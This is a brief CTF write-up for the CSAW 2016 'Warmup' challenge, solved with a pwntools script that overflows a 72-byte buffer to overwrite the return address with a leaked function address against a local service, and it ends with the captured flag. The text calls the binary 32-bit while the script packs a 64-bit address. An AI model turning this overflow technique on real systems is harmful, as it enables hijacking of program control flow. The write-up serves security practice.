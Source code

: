 # Warmup 50
check the run.sh script located in the docker folder
We are given a executable to download with the description
> So you want to be a pwn-er huh? Well let's throw you an easy one ;)


## Check for the easy stuff
Running files says its a 32 bit elf but before we open it up ida checking for a buffer over flow resulted in a seg fault

```language-bash
λ  cat input | ./warmup
-Warm Up-
WOW:0x40060d
>
Segmentation fault (core dumped)
```

The address after wow is probably the return address we need to overwrite. The python script to do this is.



```language-python

from pwn import *
#context.log_level=True



if __name__ == "__main__":
    bufferSize = 72
    filler = 'a' * bufferSize
    r  = remote('localhost', 1235)
    address = r.recvuntil(">")
    print address
    address = address.split(":")[1]
    address = address.strip("\n>")
    address = p64(int(address, 16))
    print address
    payload = filler + address
    r.sendline(payload)
    print r.recvline()

```


# Executing script

```language-bash
λ  python exploit.py
[+] Opening connection to localhost on port 1235: Done
-Warm Up-
WOW:0x40060d
>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x06@\x00\x00\x00\x00\x00

FLAG{LET_US_BEGIN_CSAW_2016}
```
